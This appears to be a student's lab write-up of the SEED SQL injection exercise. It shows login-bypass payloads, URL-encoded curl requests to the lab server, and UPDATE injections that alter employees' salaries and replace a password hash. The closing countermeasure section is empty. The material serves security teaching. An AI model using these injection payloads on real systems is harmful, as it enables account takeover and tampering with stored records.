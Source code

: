 # TD1 - SQL INJECTION

## SQL Coding Review

```SQL
-- SQL Commands Reminder

-- SELECT statement
SELECT column1, column2 FROM table WHERE condition;

-- UPDATE statement
UPDATE table SET column1 = value1, column2 = value2 WHERE condition;

-- INSERT statement
INSERT INTO table (column1, column2) VALUES (value1, value2);

-- DELETE statement
DELETE FROM table WHERE condition;

-- JOIN (INNER JOIN as an example)
SELECT column1, column2
FROM table1
INNER JOIN table2 ON table1.column = table2.column;

-- SQL Injection Prevention Example
-- Use parameterized queries or prepared statements to prevent SQL injection.
-- Example in Python with SQLite:
import sqlite3
conn = sqlite3.connect("database.db")
cursor = conn.cursor()
lname = "Smith"
cursor.execute("SELECT * FROM customers WHERE last_name = ?", (lname,))
```
## SQL injections on SELECT statements

- from the webpage, our strategy is to insert SQL code into the inputs of our webpage, this will be done by using the single quote: " ' ". This will close the initial single quote that is open to insert our information and therefore we'll be able to insert SQL code right after. I have chosen to go with two options here:
    1. put a true statement in order for the sql statement to be true in all cases then comment the rest:
        ```SQL 
        ' or 1=1 --
        ```
    2. insert the name of a user then put -- to comment all the remaining code therefore all the SQL code that follows is commented thus making the password insignificant.
        ```SQL
        admin'; -- 
        ```
- first of all we inspect the behaviour of the login button, we deduce that the file retrieved when the button is clicked is unsafe_home.php, we insert in the link the same things we injected in the web and execute the curl command, for the link, we have to make sure that certain characters are URL-encoded so that they are interpreted correctly, space is indicated by a +:
    ```
    curl http://www.seed-server.com/unsafe_home.php?username=%27+or+1%3D1+--+&Password=
    ```
    or 
    ```
    curl http://www.seed-server.com/unsafe_home.php?username=admin%27%3B+--+&Password=
    ```
## Appending a new SQL statement
Trying to inject some text like admin’; UPDATE credential set Name=’John Doe’ WHERE
Name=‘Alice’;# the result is not as expected :
![UPDATE ERROR](./update_error.png)
This attack is actually infeasible, as one can only perform a single request through the PHP
implementation. Actually, reading the PHP documentation of the query function (see for
instance https://www.php.net/manual/fr/pdo.query.php) shows that it is limited in scope.
However, if the multi_query function had been used instead, it would have been possible to
inject an UPDATE request with new data for instance.

## SQL injections on UPDATE statements
- In order for Alice to commit the perfect crime she needs to make sure that only her salary is changed, this can be done with the following injection:
    ```sql
    ', salary='5000000' WHERE Name='Alice' -- 
    ```
    ![ALICE SALARY](./Alice_salary.png)
- now we got Alice a higher salary, let's punish her stingy boss Boby, using the same injection:
    ```sql
    ', salary='20' WHERE Name='Boby'# -- 
    ```
- Modifying the password will require us to do an extra step as the hash value of the password is the one stored using the SHA1 function, therefore we must inject the hash value of the password we would like:
    - using the following command in our linux terminal we can determine the hash for our password, in this example we use "Alice":
        ```shell
        echo -n "Alice" | sha1sum
        ```
    - we inject this hash using the same technique
        ```sql
        ' password ='35318264c9a98faf79965c270ac80c5606774df1' WHERE name='Boby'#
        ```
        we can see that Boby can only login if he puts Alice in his password box.

##  Countermeasure - prepared statement


